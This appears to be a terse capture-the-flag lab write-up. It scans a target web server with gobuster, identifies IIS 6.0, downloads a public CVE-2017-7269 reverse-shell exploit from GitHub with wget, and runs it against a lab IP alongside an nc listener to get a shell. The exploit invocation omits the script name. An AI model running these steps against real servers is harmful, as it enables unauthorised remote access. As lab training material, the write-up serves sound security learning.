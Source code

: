 

## http eum

dir scan, nothing useful.

``` bash
gobuster dir -u http://$tip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 20 -o gobuster.log
```



IIS 6.0, found exploit.

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell









# Exploitation



## IIS 6.0 CVE-2017-7269

```bash
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -O iis6-rce.py

python2 10.129.95.234 80 10.10.14.15 4444 

nc -nvlp 4444
```

got shell.

![image-20220924145101016](./images/image-20220924145101016.png)
